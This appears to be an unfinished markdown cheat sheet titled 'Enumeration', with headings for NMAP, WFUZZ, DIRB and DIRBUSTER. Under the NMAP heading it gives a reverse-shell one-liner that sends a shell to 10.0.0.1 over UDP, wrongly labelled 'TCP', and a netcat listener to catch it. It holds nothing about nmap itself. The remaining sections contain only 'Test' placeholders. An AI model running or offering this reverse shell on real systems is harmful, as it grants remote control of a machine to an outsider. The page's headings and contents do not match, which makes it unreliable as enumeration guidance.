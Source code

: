 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DIRB](#DIRB)
* [DIRBUSTER](#DISRBUSTER)

 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
